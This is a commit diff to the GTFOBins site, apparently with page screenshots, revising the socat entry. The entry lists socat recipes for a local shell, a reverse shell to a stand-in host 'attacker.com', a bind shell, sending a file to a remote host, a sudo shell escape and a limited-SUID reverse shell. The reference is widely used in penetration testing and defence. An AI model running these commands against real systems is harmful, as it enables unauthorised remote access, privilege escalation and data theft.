

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/socat.md, in a window 1280 px wide and 900 px high, scrolled down 1085 px. Shown: the top 872 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1914 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Improve socat

```diff
--- a/_gtfobins/socat.md
+++ b/_gtfobins/socat.md
@@ -2,30 +2,18 @@
 functions:
   shell:
     - code: |
-        socat STDIN EXEC:/bin/bash
+        socat stdin exec:/bin/sh
   reverse-shell:
     - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
       code: |
         RHOST=attacker.com
         RPORT=12345
-        socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
+        socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
   bind-shell:
     - description: Run ``socat FILE:`tty`,raw,echo=0 TCP:target.com:12345`` on the attacker box to connect to the shell.
       code: |
         LPORT=12345
-        socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:sh,pty,stderr,setsid,sigint,sane
-  sudo:
-    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
-      code: |
-        RHOST=attacker.com
-        RPORT=12345
-        sudo -E socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
-  limited-suid:
-    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
-      code: |
-        RHOST=attacker.com
-        RPORT=12345
-        ./socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
+        socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
   file-upload:
     - description: Run ``socat -u tcp-listen:12345,reuseaddr open:file_to_save,creat`` on the attacker box to collect the file.
       code: |
@@ -40,4 +28,13 @@ functions:
         RPORT=12345
         LFILE=file_to_save
         socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
+  sudo:
+    - code: |
+        sudo socat stdin exec:/bin/sh
+  limited-suid:
+    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
+      code: |
+        RHOST=attacker.com
+        RPORT=12345
+        ./socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
 ---
```
